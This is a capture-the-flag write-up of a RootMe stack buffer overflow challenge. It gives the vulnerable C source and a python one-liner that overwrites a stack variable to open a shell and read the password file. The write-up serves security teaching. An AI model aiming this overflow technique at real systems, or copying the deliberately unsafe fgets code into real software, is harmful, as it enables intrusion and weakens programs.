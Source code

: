 # ELF x86: Stack buffer overflow basic 1

[RootMe challenge: ELF x86 - Stack buffer overflow basic 1](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1?lang=en): An intermediate level to familiarize yourself with stack overflows.

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 
```

Given code:

```text
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

----

Apparently, the goal is to change the `check` variable to `0xdeadbeef` (Endian).

```text
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'DDDD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x44444444

You are on the right way!
```

```text
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
cat .passwd
```

## Resources

* [Débordement de tampon - dans la pile](https://www.root-me.org/spip.php?article807)
* [François Boisson : Buffer Overflow ou explication de "une faille de type bufferoverflow"](https://www.youtube.com/watch?v=u-OZQkv2ebw)
* [Buffering in standard streams](https://repository.root-me.org/Administration/Unix/Linux/EN%20-%20buffering%20in%20standard%20streams.pdf)
* [Stack Bug - Exploitation avancee de buffer overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/FR%20-%20Stack%20Bug%20-%20Exploitation%20avancee%20de%20buffer%20overflow.pdf)
* [Exploiting Stack Buffer Overflows in the Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf)